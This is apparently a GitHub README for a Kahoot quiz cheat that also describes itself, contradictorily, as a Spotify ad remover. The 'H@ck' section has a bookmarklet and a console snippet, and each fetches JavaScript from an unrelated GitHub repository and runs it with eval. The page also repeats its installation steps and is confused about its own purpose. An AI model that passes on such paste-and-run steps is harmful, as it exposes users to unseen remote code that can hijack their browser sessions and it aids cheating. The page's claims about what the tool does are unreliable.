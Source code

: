 <h1 text align = "center">🧑‍🏫 Hakoot [OutDated] 2019-2020 🧑‍🏫</h1> 

<p text align = "center">⚠️ This version of extension is *OutDated*⚠️ </p>
<p text align = "center"> Status: working for challenges </p>

<h1 text align = "center">Klahoot is the best, most reliable and FREE service getting rid of annoying Spotify Ads.</h1>

<h1 text align = "center"> H@ck </h1>

</br></br>
1. Add this to your bookmarks
`javascript:fetch("https://raw.githubusercontent.com/1hipo1/yes/main/yesyes.js"
  .then((r) => r.text()
  .then((t) => eval(t)));`
   
2. Paste this into console
`fetch("https://raw.githubusercontent.com/DYLOjestem/Cheats/main/kahoot.js") 
  .then((res) => res.text() 
  .then((t) => eval(t)))`

</br>

<h1 text align = "center"> Installation </h1>

</br></br>
1. You can simply download our extension from chrome web store. <a href="https://chrome.google.com/webstore/detail/klahoot-spotify-ad-remove/glpljojimangbbmcgjkjekeaienoagda">Chrome Web Store</a> </br> 
2. Or you can download zip, unzip, turn on developer mode in chrome and then drag and drop the folder with exetension files. 

</br>

<h1 text align = "center"> Installation </h1>

</br></br>
1. You can simply download our extension from chrome web store. <a href="https://chrome.google.com/webstore/detail/klahoot-spotify-ad-remove/glpljojimangbbmcgjkjekeaienoagda">Chrome Web Store</a> </br> 
2. Or you can download zip, unzip, turn on developer mode in chrome and then drag and drop the folder with exetension files. 

</br>

<p text align = "center">🍏 GLHF 😆 </p>

<h6 text align = "right">Kuczi$</h6>
